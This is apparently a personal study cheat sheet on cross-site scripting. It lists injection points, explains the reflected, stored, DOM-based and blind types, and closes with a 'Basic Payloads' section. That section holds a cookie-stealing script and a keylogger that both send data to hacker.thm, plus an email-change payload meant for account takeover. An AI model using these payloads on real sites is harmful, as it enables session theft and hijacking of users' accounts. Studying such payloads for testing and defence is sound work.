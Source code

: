 # Cross Site Scripting(XSS)

Attack Vectors

- Customizable Themes & Profiles via CSS
- Event or meeting names
- URI based
- Imported from a 3rd party (think Facebook integration)
- JSON POST Values (check returning content type)
- File Upload names
- Uploaded files (swf, HTML, ++)
- Custom Error pages
- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
- Login and Forgot password forms
<a/>

<!-- -->
				Reflected XSS
##### supplied data in an HTTP request is included in the webpage source without any validation.

Examples:
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers

<!-- -->

				Stored XSS				
##### the payload is stored on the web application and then gets run when other users visit the site or web page.
Examples:
- Comments on a blog
- User profile information  
- Website Listings

<!-- -->

				Dom Based XSS		
##### JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code.

-- Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.
				
				
				Blind XSS				
##### your payload gets stored on the website for another user to view, but you can't see the payload working or be able to test it against yourself first.

-- xsshunter

				Basic Payloads
-- Session Stealing
`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

-- Key logger 
`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

-- Business Logic(so you can change their Password)
`<script>user.changeEmail('attacker@hacker.thm');</script>`

-- Beef Framework

[XSS Filter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)